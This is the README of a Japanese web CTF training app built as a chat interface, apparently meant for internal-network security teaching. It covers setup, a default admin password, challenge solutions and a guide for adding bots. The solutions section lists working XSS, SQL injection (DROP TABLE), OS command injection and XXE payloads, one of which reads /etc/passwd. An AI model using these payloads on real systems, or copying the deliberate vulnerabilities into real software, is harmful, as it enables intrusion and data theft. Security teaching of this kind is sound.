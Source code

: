 # chat-ctf (公開サーバでの利用はしないでください)
chatアプリケーション風WebCTFサイト。
内部ネットワーク内での利用を想定した、セキュリティ教材です。

## 依存
- docker-compose
- mkcert
- sqlite3

## 起動手順

```sh
$ git clone https://github.com/TakuKitamura/chat-ctf.git
$ cd chat-ctf
$ sudo docker compose up -d
$ vim src/.env.development # 適切なものを設定。
$ # IPは、サーバのIPアドレス
SECRET_COOKIE_PASSWORD=xxx # 30文字以上に設定してください
IP=192.168.1.x
$ vim src/.env.production # 適切なものを設定
SECRET_COOKIE_PASSWORD=xxx # 30文字以上に設定してください
IP=192.168.1.x
$ cd src
$ ./setup-db.sh # Admin/Adm1nAdm1n というテストアカウントも追加されます。
$ mkcert 192.168.1.x
$ cd ..
$ sudo docker compose exec app yarn install
$ sudo docker compose exec app yarn build && sudo docker compose exec app yarn start # 本番向け
$ # or
$ sudo docker compose exec app yarn dev # 開発向け
```
https://192.168.1.x/login でログインできます。

https://192.168.1.x/signup でアカウントを作成できます。

CSVファイルからのアカウント一括作成も可能です。

```sh
$ vim /tmp/user.csv # 一例
UserID,Password,IconURL
Test1,Maixuo7p,https://example.com/1.jpg
Test2,eoch2ieP,https://example.com/2.jpg
$ cd chat-ctf/src
$ ./add-users.sh -f /tmp/user.csv -i 192.168.1.x
```

### Adminアカウント専用機能
- Adminアカウント(`Admin/Adm1nAdm1n`)でログインし、適当なテキストボックスで`/reset-chat`と入力するとchatデータがDBから削除される。画面更新をすると、chat履歴が消えていることを確認できる。

<details>

<summary>問題の回答</summary>

### Echo Bot [XSS]

ブラウザのDeveloper ToolでUser Agentを下記のように変更。
```
"><img src=x onerror="alert()"><!--
```

そして、適当なメッセージを入力し送信する。

### アーティスト検索 Bot [SQL Injection]

下記のメッセージを入力し送信する。
```
search=santana
n='; DROP TABLE user; --
```

### グレースケール変換 Bot [OS Command Injection]

アップロードする画像のファイル名を例えば以下に変え、アップロードする。
```
example`sleep 3`.jpg
```

### FizzBuzz Bot [XSS]

https://192.168.1.x?q=%3Cimg%20src=%22x%22%20onerror=%22alert()%22%3E

というようなURLにアクセスした上で、下記メッセージを入力し送信する。
```
n=200
```

### Excel解析 Bot [XXE]

適当なGoogleスプレッドシートを作成し、Microsoft Excel形式でダウンロード。ファイル名をexample.xlsxとする。
以下のように細工したファイルを作成する。

```sh
$ mkdir tmp
$ mv example.xlsx tmp
$ cd tmp
$ unzip example.xlsx
$ ls
[Content_Types].xml  _rels  example.xlsx  xl
$ cat xl/sharedStrings.xml # 出力結果は例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>AAA</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ vim xl/sharedStrings.xml # 例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [ 
    <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>&xxe;</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ zip -r crafted.xlsx '[Content_Types].xml' _rels xl
  adding: [Content_Types].xml (deflated 71%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 40%)
  adding: xl/ (stored 0%)
  adding: xl/workbook.xml (deflated 58%)
  adding: xl/worksheets/ (stored 0%)
  adding: xl/worksheets/sheet1.xml (deflated 64%)
  adding: xl/worksheets/_rels/ (stored 0%)
  adding: xl/worksheets/_rels/sheet1.xml.rels (deflated 40%)
  adding: xl/drawings/ (stored 0%)
  adding: xl/drawings/drawing1.xml (deflated 66%)
  adding: xl/styles.xml (deflated 61%)
  adding: xl/theme/ (stored 0%)
  adding: xl/theme/theme1.xml (deflated 78%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 66%)
  adding: xl/sharedStrings.xml (deflated 26%)
```

そして、crafted.xlsxをアップロードする。

</details>

---

# Bot問題追加ガイド

チャット形式CTFの各問題を `src/lib/bots/bot<number>.ts` の形式で実装しています。  
新しい問題を追加する際は、以下のルールに従ってください。

## 1. ファイル命名規則

- ファイル名は `bot1.ts`, `bot2.ts`, `bot3.ts` のように連番で命名します。
- 重複しない番号を使用してください。
- ファイル内のロジックで、問題に正解した場合は `gotFlag: true` を返すようにしてください。

## 2. Bot関数の構成

すべての Bot ファイルは、以下のように `default export` される `async` 関数を定義します。

```ts
import { BotHandlerArgs } from './types';
const escape = require('escape-html');

export default async function bot({
  req,
  message,
  file
}: BotHandlerArgs) {
  return {
    gotFlag: false,
    html: escape("出力メッセージ")
  };
}
```

戻り値の構造：

```ts
{
  gotFlag: boolean, // 正解時 true、不正解時 false
  html: string      // 表示するHTML文字列（ユーザ由来の入力は、escape必須）
}
```

## 3. 入力とユーティリティ関数

### BotHandlerArgs

すべての Bot は以下の引数を受け取ります：

- `req: NextApiRequest` - HTTPリクエストオブジェクト
  - https://www.jsdocs.io/package/next#NextApiRequest
- `message: string` - ユーザが送信したメッセージ
- `file: File` - ファイル情報（ファイルがアップロードされていなければ、undefined）
  - https://www.jsdocs.io/package/@types/formidable#File

### validCheckEnv の使い方

クエリ形式の `message` をパース・バリデーションする際には、共通ユーティリティ `validCheckEnv()` を使ってください。

```ts
import { validCheckEnv } from 'lib/ctf';

const result = validCheckEnv(message, ['key1', 'key2']);

if (!result.valid) {
  return {
    gotFlag: false,
    html: '<h3>Invalid Format</h3>'
  };
}

const key1 = result.params.key1;
const key2 = result.params.key2;
```

この関数は以下の形式のメッセージをパースします：

```
key1=value1&key2=value2
```

指定されたキーがすべて存在するかをチェックし、不正な形式であれば `valid: false` を返します。

## 4. Ctfテーブルへの登録

Bot を追加したら、対応するエントリを `Ctf` テーブルに追加してください。

### 対象ファイル

- `src/migrations/003-ctf.sql` を編集します。

### レコード追加形式

```sql
INSERT INTO Ctf (id, title, template, attachmentButton)
VALUES (<bot番号>, '<問題タイトル>', '<初期入力テンプレート>', <true|false>);
```

- `id`: `bot<number>.ts` の `<number>` と一致させること。
- `title`: チャットUIに表示される問題名。
- `template`: 入力フォームに事前表示される文字列（HTML可）。
- `attachmentButton`: ファイルアップロード用ボタンを表示するかどうか（`true` または `false`）。

### 反映方法

編集後は必ず、以下のスクリプトを実行してDBを再セットアップしてください：

```bash
$ cd src
$ ./setup-db.sh
```

これにより、CTF UI に新しい Bot が表示されます。
